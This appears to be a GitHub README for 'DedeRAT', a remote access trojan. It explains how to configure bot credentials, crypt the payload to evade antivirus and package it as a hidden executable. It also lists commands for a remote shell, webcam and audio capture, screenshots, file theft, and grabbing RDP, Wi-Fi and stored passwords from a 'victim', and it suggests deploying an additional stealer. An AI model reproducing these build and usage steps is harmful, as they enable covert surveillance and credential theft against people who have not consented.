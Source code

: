 
# DedeRAT

This RAT made inspired by Dede Korkut from Turkish mitology. My first RAT project. I hope you will like this.

# Installation



# DedeRAT

This RAT made inspired by Dede Korkut from Turkish mitology. My first RAT project. I hope you will like this.

# Installation

- Install it as git or zip
- Open 'config.py' in a text editor.
- Change "serverid" and "bottoken" according to your values
- Open the "NMSFUD" folder and open "NMSFUD V3.5" file. Select Python file and crypt the your virus.
- Turn this to exe using pyinstaller (You can use icons in util/iconpack)

## Command Examples

```pyinstaller --onefile --noconsole -i util/iconspack/iconname.ico -n virus config.py```

```pyinstaller --onefile --noconsole -n virus config.py```

```pyinstaller --onefile --noconsole config.py```

# Commands

cd - Change directory. Usage: cd C:\full\path\of\directory

pwd - See the current directory.

delet - Remove a file.

download - Download a file from the victim's computer. Usage: 

download C:\full\path\of\directory

msgbox - Show a message box. Usage: msgbox -msg Message -ttl Title

record - Record for a specified time. Usage: record 10 (where 10 is the number of seconds)

setbg - Upload a photo to change the background.

shell - Execute CMD commands. Usage: shell dir

ss - Take a screenshot.

stealrdp - Steal RDP session information.

sysinfo - Read system information.

upload - Upload a file to the victim. Usage: upload C:\full\path\of\your\wish (attach a file)

capsrandtroll - Randomize text case to troll. Usage: capsrandtroll 10 (where 10 is the number of seconds)

visitsite - Visit a specified site.

shutdown - Shutdown the victim's computer.

tasklist - List open programs on the victim's PC.

taskkill - Close a program or game on the victim's PC.

write - Write a sentence on the victim's PC.

moveto - Move the victim's mouse. Usage: moveto 100, 300 
(where 100 and 300 are x and y coordinates)

webcamlist - List available webcams.

cameraphoto - Take a photo with the webcam.

execute - Execute a file. Usage: execute <path>

recordvideo - Record a video for a specified time. Usage: recordvideo 10.0 (where 10.0 is the duration in seconds as a float)

wifipasswords - List saved Wi-Fi networks and passwords.

grab - Grab the victim's passwords.

### NOTE :

You need to run command like "dede ss si:12345" (si:<session-id>)

# Suggestion

You can upload ```dede upload (upload a stealer.exe) si:<session-id>``` a stealer and run ```dede execute path/of/stealer.exe si:<session-id>``` the virus because my grabber is so bad :(

# Thanks To :

- LydexCoding
- NMS
- Basfroxy
- LyrexEx
